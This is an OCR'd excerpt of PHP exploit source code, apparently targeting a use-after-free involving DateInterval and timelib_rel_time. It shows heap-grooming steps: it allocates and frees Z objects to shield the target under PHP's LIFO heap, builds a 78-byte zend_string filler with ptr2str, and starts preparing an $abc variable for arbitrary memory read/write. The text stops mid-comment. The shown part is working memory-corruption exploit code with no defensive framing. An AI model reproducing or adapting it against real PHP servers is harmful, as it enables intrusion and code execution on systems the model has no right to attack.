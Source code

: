 	# After the UAF is triggered on the object, all the structures that are
	# used to represent it will be marked as free.
	# If we create other variables afterwards, those variables might be
	# allocated in the object's previous memory regions, which might pose
	# problems for the rest of the exploitation.
	# To avoid this, we allocate a lot of objects before the UAF, and free
	# them afterwards. Since PHP's heap is LIFO, when we create other vars,
	# they will take the place of those objects instead of the object we
	# are triggering the UAF on. This means our object is "shielded" and
	# we don't have to worry about breaking it.
	$room = [];
	for($i=0;$i&lt;10;$i++)
		$room[] = new Z();

	# Build string meant to fill old DateInterval's timelib_rel_time
	# I: ptr2str's name is unintuitive here: we just want to allocate a
	# zend_string of size 78.
	$_protector = ptr2str(0, 78);

	o('  Allocating $abc and $p');

	# Create ABC
	# I: This is the variable we will use to R/W memory afterwards.
	# After we free the Z object, we'll make sure abc is overwritten by a
	# timelib_rel_time structure under our control. The first 8*8 = 64 bytes